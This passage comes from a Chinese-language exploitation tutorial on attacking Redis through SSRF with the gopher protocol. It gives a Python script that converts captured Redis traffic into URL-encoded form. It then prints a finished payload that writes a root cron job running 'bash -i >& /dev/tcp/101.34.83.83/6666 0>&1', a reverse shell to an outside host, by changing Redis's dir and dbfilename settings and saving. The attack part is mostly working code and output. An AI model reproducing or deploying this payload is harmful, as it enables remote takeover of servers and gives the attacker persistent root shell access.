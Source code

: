 ```
quit\r
< 2021/07/12 08:59:52.684963  length=5 from=0 to=4
+OK\r
```

将捕获的数据转为适合的格式：

* 如果第一个字符是`>`或者`<`那么丢弃该行字符串，表示请求和返回的时间。
* 如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。
* 将`\r`字符串替换成`%0d%0a`
* 空白行替换为`%0a`

抄来的转化脚本：

```py
#coding: utf-8
#author: JoyChou
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        # 判断倒数第2、3字符串是否为\r
        elif line[-3:-1] == r'\r':
            # 如果该行只有\r，将\r替换成%0a%0d%0a
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                # 去掉最后的换行符
                line = line.replace('\n', '')
                exp = exp + line
        # 判断是否是空行，空行替换为%0a
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp
```

最后转换结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$61%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/101.34.83.83/6666 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

结合gopher协议发起攻击请求
